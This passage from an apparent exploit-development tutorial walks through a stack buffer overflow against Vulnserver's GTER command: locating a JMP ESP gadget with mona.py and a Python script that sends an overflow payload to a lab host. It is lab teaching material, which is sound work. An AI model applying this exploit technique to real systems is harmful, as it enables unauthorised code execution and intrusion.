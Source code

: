 We can use `mona.py` plugin to find that instruction:

**mona looking for JMP ESP.**

``` console
! mona jmp -r esp -o -cp nonull
```

This will tell `mona` to look for the instruction `JMP ESP` and will
exclude `DLL` from the `OS`.

<div class="imgblock">

![JMP ESP](https://res.cloudinary.com/fluid-attacks/image/upload/v1620331145/blog/vulnserver-gter/mona1_ooj8ce.webp)

</div>

We will pick the `JMP ESP` instruction at `625011C7`. Now we can proceed
to update the exploit and replace the four `B` with that address:

**exploit.py.**

``` python
import socket
import struct

HOST = '192.168.0.29'
PORT = 9999

PAYLOAD = (
    b'GTER /.:/' +
    b'A' * 147 +
    # 625011C7 | FFE4 | jmp esp
    struct.pack('<L', 0x625011C7) +
    b'C' * (400 - 147 - 4)
)

with socket.create_connection((HOST, PORT)) as fd:
    fd.recv(128)
    fd.sendall(PAYLOAD)
```

Let’s verify this:

<div class="imgblock">

![Performing the JMP ESP](https://res.cloudinary.com/fluid-attacks/image/upload/v1620331145/blog/vulnserver-gter/jmp1_ceeuzf.gif)

</div>

Great\!

But since everything can’t be so glorious, we landed on our `C` buffer,
which contains 20 bytes. We need to move to the `A` buffer, which holds
around 144 bytes to work.

## Jump around
